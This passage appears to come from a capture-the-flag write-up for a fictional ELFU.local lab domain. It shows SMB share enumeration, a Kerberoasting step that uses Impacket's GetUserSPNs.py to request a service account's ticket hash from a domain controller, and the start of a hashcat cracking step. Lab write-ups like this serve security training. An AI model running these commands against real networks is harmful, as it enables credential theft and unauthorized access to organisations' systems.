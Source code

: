 ``` 
$ smbclient -L 10.128.3.30 -p 445
Enter WORKGROUP\fbsjgeyymg's password: 

	Sharename       Type      Comment
	---------       ----      -------
	netlogon        Disk      
	sysvol          Disk      
	elfu_svc_shr    Disk      elfu_svc_shr
	research_dep    Disk      research_dep
	IPC$            IPC       IPC Service (Samba 4.3.11-Ubuntu)
SMB1 disabled -- no workgroup available
``` 
it could be useful to have an access to the **elfu_svc_shr** and **research_dep** shares.

let's go back to the domain controller and see if we can obtain someuseful creds.

## impacket
we have some docs here to read:
[(Kerbero Cheatsheet)](https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a)
[Impacket](https://github.com/SecureAuthCorp/impacket/blob/cd4fe47cfcb72d7d35237a99e3df95cedf96e94f/examples/GetUserSPNs.py)

and we can use the script GetUserSPNs.py to find Service Principal Names that are associated with our user account
and run it against the Domain Controller

``` 
$ python3 GetUserSPNs.py -outputfile output.txt -dc-ip 10.128.1.53 ELFU.local/dcvcskikmq:'Gvogcgrrp@' -request
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

ServicePrincipalName                 Name      MemberOf  PasswordLastSet             LastLogon  Delegation 
-----------------------------------  --------  --------  --------------------------  ---------  ----------
ldap/elfu_svc/elfu                   elfu_svc            2021-10-29 19:25:04.305279  <never>               
ldap/elfu_svc/elfu.local             elfu_svc            2021-10-29 19:25:04.305279  <never>               
ldap/elfu_svc.elfu.local/elfu        elfu_svc            2021-10-29 19:25:04.305279  <never>               
ldap/elfu_svc.elfu.local/elfu.local  elfu_svc            2021-10-29 19:25:04.305279  <never> 

``` 
the script saved the hash of the service account found in the output.txt file.<br/>
Time to try to crack the hash.

## hashcat
taken from hints to build our hashcat rule: 
```{note} 
Hashcat Mangling Rules

From: Eve Snowshoes

[(OneRuleToRuleThemAll.rule)](https://github.com/NotSoSecure/password_cracking_rules) is great for mangling when a password dictionary isn't enough.
``` 
